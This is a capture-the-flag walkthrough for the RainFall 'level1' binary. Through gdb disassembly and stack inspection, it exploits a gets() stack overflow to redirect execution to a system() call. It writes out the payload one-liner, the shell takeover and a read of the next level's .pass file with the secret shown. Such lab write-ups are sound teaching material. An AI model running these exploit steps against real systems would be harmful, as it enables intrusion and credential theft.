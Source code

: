 # level1 walkthrough
Given 32 bit elf binary. Disassemble it via gdb:

    (gdb) set disassembly-flavor intel
    (gdb) disass *main
    Dump of assembler code for function main:
    0x08048480 <+0>:	push   ebp
    0x08048481 <+1>:	mov    ebp,esp
    0x08048483 <+3>:	and    esp,0xfffffff0
    0x08048486 <+6>:	sub    esp,0x50
    0x08048489 <+9>:	lea    eax,[esp+0x10]
    0x0804848d <+13>:	mov    DWORD PTR [esp],eax
    0x08048490 <+16>:	call   0x8048340 <gets@plt>
    0x08048495 <+21>:	leave  
    0x08048496 <+22>:	ret    
    End of assembler dump.

We can certainly obfuscate gets because it reads into buffer without size control.
We can see that gets function called with some buffer allocated on stack, so we can perform stack overflow attack.
If we provide more data input to the gets function than buffer capacity, then we would be able to overwrite return address from caller function (buffer allocates inside main).
But overwriting return address would not be useful on it's own, we also need some malicious code inside our binary.
If we look around with "info" command we would find defined but not used "run" function.

    (gdb) info functions
    All defined functions:

    Non-debugging symbols:
    0x080482f8  _init
    0x08048340  gets
    0x08048340  gets@plt
    0x08048350  fwrite
    0x08048350  fwrite@plt
    0x08048360  system
    0x08048360  system@plt
    0x08048370  __gmon_start__
    0x08048370  __gmon_start__@plt
    0x08048380  __libc_start_main
    0x08048380  __libc_start_main@plt
    0x08048390  _start
    0x080483c0  __do_global_dtors_aux
    0x08048420  frame_dummy
    0x08048444  run
    0x08048480  main
    0x080484a0  __libc_csu_init
    0x08048510  __libc_csu_fini
    0x08048512  __i686.get_pc_thunk.bx
    0x08048520  __do_global_ctors_aux
    0x0804854c  _fini

Lets disassemble this function:

    (gdb) disass run
    Dump of assembler code for function run:
    0x08048444 <+0>:	push   ebp
    0x08048445 <+1>:	mov    ebp,esp
    0x08048447 <+3>:	sub    esp,0x18
    0x0804844a <+6>:	mov    eax,ds:0x80497c0
    0x0804844f <+11>:	mov    edx,eax
    0x08048451 <+13>:	mov    eax,0x8048570
    0x08048456 <+18>:	mov    DWORD PTR [esp+0xc],edx
    0x0804845a <+22>:	mov    DWORD PTR [esp+0x8],0x13
    0x08048462 <+30>:	mov    DWORD PTR [esp+0x4],0x1
    0x0804846a <+38>:	mov    DWORD PTR [esp],eax
    0x0804846d <+41>:	call   0x8048350 <fwrite@plt>
    0x08048472 <+46>:	mov    DWORD PTR [esp],0x8048584
    0x08048479 <+53>:	call   0x8048360 <system@plt>
    0x0804847e <+58>:	leave
    0x0804847f <+59>:	ret

It turns out our binary already contains malicious function which we can abuse.
Now we need to find offset from the beginning of buffer allocated on stack to the return address.
First lets find out main function return address, for that we need to examine frame at the beginning of main function:

    (gdb) info frame
    Stack level 0, frame at 0xbffff710:
    eip = 0x8048480 in main; saved eip 0xb7e454d3
    Arglist at unknown address.
    Locals at unknown address, Previous frame's sp is 0xbffff710
    Saved registers:
    eip at 0xbffff70c

Return address value contains in saved eip register "0xb7e454d3".
Next we need to find this value inside our stack after buffer allocation and before gets call:

    (gdb) x/24x $sp
    0xbffff6b0:	0xbffff6c0	0x0000002f	0xbffff70c	0xb7fd0ff4
    0xbffff6c0:	0x080484a0	0x0804978c	0x00000001	0x08048321
    0xbffff6d0:	0xb7fd13e4	0x00000016	0x0804978c	0x080484c1
    0xbffff6e0:	0xffffffff	0xb7e5edc6	0xb7fd0ff4	0xb7e5ee55
    0xbffff6f0:	0xb7fed280	0x00000000	0x080484a9	0xb7fd0ff4
    0xbffff700:	0x080484a0	0x00000000	0x00000000	0xb7e454d3

After that we need to find our buffer address. On top of the stack should be stored buffer address pointer (before gets call).
So the address of our buffer is "0xbffff6c0", now if we count number of addresses from the beginning of buffer address to the return address and multiply it by 4 (one address is four bytes long) 
then we would get offset from the beginning of gets buffer to the main function return address (76 bytes).
Finally we can overwrite main function return address with run function address by providing to the gets 76 bytes of random data and 4 bytes of run function address:

    level1@RainFall:~$ python -c 'print("a" * 76 + "44840408".decode("hex"))' > /tmp/level1/sample

We can use python to generate such string, also we need to convert address of run function to little endian (simple byte swap).
Now if we run our binary and give generated file as an input we would get:

    level1@RainFall:~$ ./level1 < /tmp/level1/sample
    Good... Wait what?
    Segmentation fault (core dumped)

Turns out that executed by system call shell tries to read stdin and closes immediately because it's receiving EOF.
We can bypass this behavior by letting stdin open using cat:

    level1@RainFall:~$ cat /tmp/level1/sample - | ./level1
    Good... Wait what?
    whoami
    level2
    cat /home/user/level2/.pass
    53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77